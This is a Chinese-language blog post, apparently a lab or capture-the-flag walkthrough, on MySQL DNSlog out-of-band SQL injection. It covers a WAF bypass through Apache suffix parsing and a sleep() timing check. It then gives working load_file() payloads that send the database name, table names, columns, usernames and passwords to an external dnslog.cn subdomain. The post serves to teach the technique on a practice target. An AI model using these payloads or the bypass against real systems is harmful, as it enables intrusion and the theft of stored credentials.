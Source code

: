 ```yaml
---
title: MySQL数据库的dnslog注入
tags: 
  - sql注入
  - 盲注
categories: web安全
keywords: 'MySQL,dnslog,sql注入'
description: MySQL数据库的dnslog注入
cover: https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fupload-images.jianshu.io%2Fupload_images%2F20428239-e2a9abb837deef3e.png&refer=http%3A%2F%2Fupload-images.jianshu.io&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1630915755&t=4e5de1dc3865a304f901e8b162c2a111
date: 2020-05-23 18:44:18
---
```


MySQL数据库作为使用数量最多的数据库，今天为大家带来一个dns注入教程，dns注入使用方法一般是在显错注入,报错注入都不能使用，盲注又太麻烦的情况下进行的，通过load_file()函数，解析dns的时候，将子查询的数据放入到dns日志中来获取数据。
### 中华人民共和国网络安全法
我们要做一名合法的白帽子！
![upload successful](/images/pasted-41.png)

![upload successful](/images/pasted-42.png)

![upload successful](/images/pasted-43.png)

### dns注入使用前提
1.数据库为Mysql		
2.在mysql.ini配置文件里面需要有一句：secure_file_priv=
3.注入需要使用load_file()函数，通过该函数可以读取本地文件里面的字符串内容，当然也可以访问UNC路径的内容。

### Dnslog 注入具体流程
1.首先打开靶场

![upload successful](/images/pasted-78.png)

2.通过源码发现，这里需要get传参一个id，尝试一下，页面没什么变化

![upload successful](/images/pasted-79.png)

3.那就常规思路进行尝试，先加个单引号，页面报错了，说明存在sql注入

![upload successful](/images/pasted-80.png)

4.闭合之后想要order by 猜当期字段数的，发现有安全狗

![upload successful](/images/pasted-81.png)

5.Apache中间件有一个特性，从右到左解析，遇到不认识的后缀就往前面解析，这里通过安全狗对后缀的局限性成功绕过（txt文件后缀传参不检测）

![upload successful](/images/pasted-82.png)

6.通过sleep()函数发现可以执行，页面延迟了，不需要单引号闭合

![upload successful](/images/pasted-83.png)

7.也就是这里可以通过延时盲注获取数据了，不过太麻烦了，我们使用新方法，通过dnslog获取数据库库名，首先申请一个域名	
(网址为http://dnslog.cn/	，这里一般我们是需要有自己的dns服务器，然后让数据库访问我们的服务器进行dns解析的，但是搭建自己的服务器实在太麻烦了，于是就有先人搭建了服务器dnslog，我们可以先点击**Get SubDomain**申请一个域名，然后点击**Refresh Record**获取日志信息)

![upload successful](/images/pasted-84.png)

8.前面知道了函数load_file()，我们可以通过访问（子查询）+dns获取的域名+目录名，使得数据库访问网络路径并解析dns，将数据放到我们的dnslog中，这里我这样构造payload获取数据库库名。
```
?id=1 or load_file(concat('//',(select database()),'.e124fu.dnslog.cn/abc'))
```

![upload successful](/images/pasted-87.png)

9.回到dnslog的页面访问日志看到库名为mangzhu

![upload successful](/images/pasted-88.png)

10.接下来就是替换子查询里面的内容获取其他数据了，这里我就获取数据库第一个表的表名为admin
```
?id=1 or load_file(concat('//',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.e124fu.dnslog.cn/abc'))
```
![upload successful](/images/pasted-89.png)

11.第二个表名为news

![upload successful](/images/pasted-90.png)

12.接下来获取admin表的字段
```
?id=1 or load_file(concat('//',(select column_name from information_schema.columns where table_name='admin' limit 0,1),'.e124fu.dnslog.cn/abc'))
```
可以看到有username，password
![upload successful](/images/pasted-91.png)

13.一般我们就是获取里面的username和password字段的值
```
id=1 or load_file(concat('//',(select username from admin where Id=1),'.e124fu.dnslog.cn/abc'))
```
![upload successful](/images/pasted-92.png)

14.第一个username值为flag，那就获取对应的第一个password的值，得到flag
```
id=1 or load_file(concat('//',(select password from admin where Id=1),'.e124fu.dnslog.cn/abc'))
```
![upload successful](/images/pasted-93.png)

![upload successful](/images/pasted-94.png)

15.提交flag，成功通关！

![upload successful](/images/pasted-95.png)

